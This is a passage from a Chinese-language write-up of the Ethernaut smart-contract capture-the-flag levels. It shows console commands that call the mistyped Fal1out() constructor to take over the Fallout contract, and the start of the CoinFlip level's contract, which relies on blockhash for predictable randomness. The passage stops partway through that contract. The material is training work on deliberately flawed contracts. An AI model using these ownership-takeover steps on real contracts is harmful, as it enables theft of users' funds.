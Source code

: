 ```solidity
  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

查看该合约 有引用库SafeMath.sol

和上一题一样，通过贡献之类的方式来卡攻击者，但是注意到Fal1out()函数可以payable public，因此只要调用该函数即可获得控制权

```solidity
await contract.owner()
'0x0000000000000000000000000000000000000000'
await contract.Fal1out()
{tx: '0x064fd73b90d7faeb2b70f6870d5b01a7d72d5bb373cd8ecd268ddd07cddca168', receipt: {…}, logs: Array(0)}logs: []receipt: {blockHash: '0x1e69bda0aa991dbbcaf31f322e892d98af9cdbf974c8da43fabb67f13d33cc15', blockNumber: 3841040, contractAddress: null, cumulativeGasUsed: 1164391, effectiveGasPrice: 568, …}tx: "0x064fd73b90d7faeb2b70f6870d5b01a7d72d5bb373cd8ecd268ddd07cddca168"[[Prototype]]: Object
await contract.owner()
'0x4202703Cd4d87b3DD424Bd2eD5EB8C2E1f05E0f7'
```

解释：以跟合約同名的函數作constructor使用，所以才會有這一題。而經過語法改善，現在早已改成用constructor關鍵字來定義，所以場景上可以說是不再適用。

# 3.CoinFlip

从本题开始进入智能合约的编写

这是一个掷硬币的游戏，你需要连续的猜对结果。完成这一关，你需要通过你的超能力来连续猜对十次。

 这可能能帮助到你

- 查看上面的帮助页面，["Beyond the console"](https://ethernaut.openzeppelin.com/help) 部分

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
```